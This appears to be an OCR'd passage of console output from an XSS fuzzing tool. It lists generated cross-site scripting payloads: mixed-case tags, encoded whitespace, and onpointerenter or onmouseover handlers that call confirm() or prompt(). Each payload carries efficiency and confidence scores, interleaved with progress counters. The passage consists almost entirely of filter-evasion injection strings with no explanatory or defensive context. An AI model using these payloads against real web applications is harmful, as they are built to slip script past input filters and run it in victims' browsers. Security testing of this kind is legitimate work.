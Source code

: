  Progress: 376/1536
 
------------------------------------------------------------
 Payload: <DeTAILs%0doNpOINTERenTer%0a=%0a[8].find(confirm)%0dx// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 377/1536
 
 Progress: 378/1536
 
------------------------------------------------------------
 Payload: <HTml%0dOnMOusEovEr%0a=%0a[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 379/1536
 
------------------------------------------------------------
 Payload: <d3V/+/OnPoInTErEntEr+=+confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 380/1536
 
------------------------------------------------------------
 Payload: <d3V%09oNmousEOver%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 381/1536
 
------------------------------------------------------------
 Payload: <D3v%0dOnpOinTerenteR%0d=%0d(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 382/1536
 
 Progress: 383/1536
 
------------------------------------------------------------
 Payload: <A%0dONMoUSEOver%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 384/1536
 
 Progress: 385/1536
 
 Progress: 386/1536
 
 Progress: 387/1536
 
------------------------------------------------------------
 Payload: <HTmL%0aONPoinTeRenteR%09=%09[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 388/1536
 
------------------------------------------------------------
 Payload: <a%0dONpoINteRenTer%0d=%0dconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 389/1536
 